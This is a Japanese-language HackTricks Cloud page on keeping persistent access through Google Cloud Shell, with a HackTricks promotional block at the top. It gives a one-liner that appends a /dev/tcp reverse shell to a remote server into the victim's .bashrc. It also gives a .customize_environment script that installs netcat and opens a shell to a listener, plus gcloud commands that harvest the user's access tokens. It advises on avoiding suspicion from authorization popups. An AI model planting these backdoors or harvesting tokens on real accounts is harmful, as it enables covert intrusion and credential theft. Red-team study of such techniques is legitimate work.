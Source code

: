 # GCP - Cloud Shell Persistence

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
- **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)にPRを提出して、**ハッキングトリックを共有する**
*
*
*
* githubリポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的なバックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接クラウドリソースに対するコマンドラインアクセスを提供し、関連するコストはかかりません。

**Google Cloud Shell**には、Webコンソールからアクセスするか、**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには、攻撃者にとって興味深い機能がいくつかあります：

1. **Google Cloudにアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織の所有者であっても可能です）。
2. そのインスタンスは、**活動がない場合でも少なくとも120日間はホームディレクトリを維持**します。
3. そのインスタンスの活動を監視するための**組織の機能はありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置し、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアが生き残り、攻撃者は次回実行されるたびにシェルを取得できることを意味します。ただし、次のように実行するだけです：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには**`.customize_environment`**という別のファイルがあり、存在する場合はユーザーが**クラウドシェル**にアクセスするたびに**実行されます**（前のテクニックと同様）。ユーザーがクラウドシェルを「頻繁に」使用する限り、前のバックドアまたは次のようなバックドアを挿入して持続性を維持します。
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**認証が必要なアクションが初めて実行されるとき**、ユーザのブラウザにポップアップ認証ウィンドウが表示されます。このウィンドウはコマンドを実行する前に承認する必要があります。予期しないポップアップが表示されると、疑念を抱かれ、使用されている持続性手法が潜在的に危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェル（攻撃者として）から`gcloud projects list`を実行した際の、ブラウザのユーザセッションで表示されるポップアップです：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

ただし、ユーザがアクティブにクラウドシェルを使用している場合、ポップアップは表示されず、ユーザのトークンを**収集**できます。
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、以下の3つのAPIコールが使用されます:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPを教えてくれる)

しかし、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) で詳細情報を見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
